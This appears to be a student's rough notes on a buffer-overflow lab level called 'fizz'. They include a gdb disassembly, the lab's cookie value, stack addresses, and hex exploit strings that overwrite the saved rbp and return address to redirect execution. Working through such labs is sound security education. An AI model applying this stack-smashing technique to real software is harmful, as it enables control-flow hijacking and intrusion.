 修改先，跳到fizz

fizz:
0x0000000000401413 <+0>:     f3 0f 1e fa     endbr64
0x0000000000401417 <+4>:     55      push   rbp
0x0000000000401418 <+5>:     48 89 e5        mov    rbp,rsp
0x000000000040141b <+8>:     48 83 ec 10     sub    rsp,0x10
0x000000000040141f <+12>:    89 7d fc        mov    DWORD PTR [rbp-0x4],edi

154         if (val == cookie) {
0x0000000000401422 <+15>:    8b 05 20 2d 00 00       mov    eax,DWORD PTR [rip+0x2d20]        # 0x404148 <cookie>
0x0000000000401428 <+21>:    39 45 fc        cmp    DWORD PTR [rbp-0x4],eax
0x000000000040142b <+24>:    75 25   jne    0x401452 <fizz+63>

155             printf("Fizz!: You called fizz(0x%x)\n", val);
0x000000000040142d <+26>:    8b 45 fc        mov    eax,DWORD PTR [rbp-0x4]
0x0000000000401430 <+29>:    89 c6   mov    esi,eax
0x0000000000401432 <+31>:    48 8d 05 f8 0b 00 00    lea    rax,[rip+0xbf8]        #
0x402031
0x0000000000401439 <+38>:    48 89 c7        mov    rdi,rax
0x000000000040143c <+41>:    b8 00 00 00 00  mov    eax,0x0
0x0000000000401441 <+46>:    e8 6a fd ff ff  call   0x4011b0 <printf@plt>

156             validate(1);
0x0000000000401446 <+51>:    bf 01 00 00 00  mov    edi,0x1
0x000000000040144b <+56>:    e8 7f 09 00 00  call   0x401dcf <validate>
0x0000000000401450 <+61>:    eb 19   jmp    0x40146b <fizz+88>

157
158         } else
159             printf("Misfire: You called fizz(0x%x)\n", val);
0x0000000000401452 <+63>:    8b 45 fc        mov    eax,DWORD PTR [rbp-0x4]
0x0000000000401455 <+66>:    89 c6   mov    esi,eax
0x0000000000401457 <+68>:    48 8d 05 f2 0b 00 00    lea    rax,[rip+0xbf2]        #
0x402050
0x000000000040145e <+75>:    48 89 c7        mov    rdi,rax
0x0000000000401461 <+78>:    b8 00 00 00 00  mov    eax,0x0
0x0000000000401466 <+83>:    e8 45 fd ff ff  call   0x4011b0 <printf@plt>

160         exit(0);
0x000000000040146b <+88>:    bf 00 00 00 00  mov    edi,0x0
0x0000000000401470 <+93>:    e8 db fd ff ff  call   0x401250 <exit@plt>
cookie 0x404148 : 0x00 00 00 00 0c 0d 7d c3 = 202,210,755

rbp = 0x7fffffffdff8
rbp-0x4 = 0x7fffffffdff4
rsp = 0x7fffffffdfe8

可以控制rbp的值

test:
    rbpp = 30 e0 ff ff ff 7f 00 00

cookie 0x404148:
rbp = 0x000000000040414c

&level = 0x7fffffffe028

28 + 4 = 2c

当把rbp-4指向level时，仍然报错。故可知不是简单地判断栈帧和地址的关系，应该还要判断指令的地址？

ans1:
aa aa aa aa aa aa aa aa 27 8d e0 f7 ff 7f 00 00 00 00 00 00 00 00 00 00 2c e0 ff ff ff 7f 00 00 4c 41 40 00 00 00 00 00 2d 14 40 00 00 00 00 00

c3 7d 0d 0c aa aa aa aa 27 8d e0 f7 ff 7f 00 00 00 00 00 00 00 00 00 00 2c e0 ff ff ff 7f 00 00 74 dd ff ff ff 7f 00 00 f6 12 40 00 00 00 00 00